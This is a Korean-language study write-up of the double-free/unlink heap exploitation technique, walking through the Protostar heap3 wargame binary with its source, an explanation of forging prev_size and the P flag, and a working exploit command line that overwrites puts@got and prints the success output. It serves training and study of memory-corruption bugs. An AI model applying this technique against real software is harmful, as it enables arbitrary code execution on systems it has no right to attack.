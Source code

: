 # **Double Free Bug**

* Free를 두 번할 경우 발생하는 버그이다.
* Free가 호출될 때 인접한 Free Chunk가 있다면 더 큰 Free Chunk로 병합된다.
* Chunk가 병합될 때 unlink 매크로가 발생한다. unlink 매크로를 통해 원하는 공간에 원하는 값을 입력할 수 있다.
* unlink를 공격하는 방법은 glibc 2.3.2 버전 이하에서만 가능하다.

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

```
FD = *P + 8;
BK = *P + 12;
FD + 12 = BK;
BK + 8 = FD;
```

![unlink](/Resources/img/double_free_bug_unlink.jpeg)

## **Proof of Concept**

### **Protostar의 heap3**

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv)
{
  char *a, *b, *c;
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
  free(c);
  free(b);
  free(a);
  printf("dynamite failed?\n");
}
```

* strcpy(a,argv[1])에서 Overflow를 통해 b의 **P flag**와 **pre_size** 값을 변조한다.  

**P flag 변조**
* P flag가 0이라는 뜻은 b가 free될 때 a chunk와 병합이 일어난다는 뜻이다. 
* 따라서 P flag를 0으로 변조시키면 unlink 매크로가 발생한다. 
* unlink가 실행되면 fd가 가리키는 주소의 + 12 지점에 bk가 입력되고 bk가 가리키는 주소의 + 8 지점에 fd가 입력되어 임의의 주소에 원하는 값을 입력할 수 있다.

**pre_size 변조**
* Heap에서 이전 Chunk의 주소값은 "&b - pre_size"로 표현된다.
* pre_size 값을 0xfffffffc(-4)로 변조할 경우 &b + 4 byte가 된다.
* 생성한 가짜 Chunk는 우리가 입력할 수 있는 공간이기 때문에 fd와 bk를 조작할 수 있다.

### **Exploit Method**

1. a에 "push puts@got ; ret" 코드 삽입 및 \xfc\xff\xff\xff로 pre_size, size 변조
1. 가짜 Chunk의 fd 위치에 puts@got - 12를 삽입하고 bk에는 해당 code를 가리키는 주소값을 입력한다. 

## **Exploit**

```
root@protostar:/home/protostar# ./heap3 $(python -c 'print "\x90"*22+"\x68\x64\x88\x04\x08\xc3"+"A"*4+"\xfc\xff\xff\xff"+"\xfc\xff\xff\xff"') $(python -c 'print "A"*4+"\x1c\xb1\x04\x08"+"\x10\xc0\x04\x08"') C
that wasn't too bad now, was it? @ 1577555750
```

### **Add**

* DFB에서 .dtors + 4(소멸자)의 주소를 찾아 사용하는 방법도 있음

**References**  
<http://index-of.co.uk/Reverse-Engineering/Double%20Free%20Bug%20%5Bseoty-_-v%5D.pdf>  
<https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13>  
<https://itsaessak.tistory.com/136>  
<http://phrack.org/issues/57/9.html>